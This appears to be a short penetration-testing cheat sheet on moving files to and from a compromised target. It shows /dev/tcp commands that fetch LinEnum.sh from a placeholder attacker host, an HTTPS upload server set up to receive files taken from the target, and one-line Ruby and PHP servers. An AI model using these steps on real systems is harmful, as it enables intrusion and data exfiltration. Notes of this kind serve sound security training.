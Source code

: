 
## Download
### Native /dev/tcp

It is possible to perform http calls using the native /dev/tcp:

1. Conncect: `exec 3<>/dev/tcp/<ip>/<port>`
2. Request: `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
3. Print: `cat <&3`

## Upload

### Upload HTTPs python server

We can create a python upload server with a certificate to upload files from our target:

```bash
$ pip install uploadserver
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' # create certificate
$ python3 -m uploadserver 443 --server-certificate ~/server.pem
```

From the target, we need to pass the flag `--insecure` with cURL


### Non-python server

- Ruby: `ruby run -ehttpd . -p<port>`
- PHP: `php -S 0.0.0.0:<port>`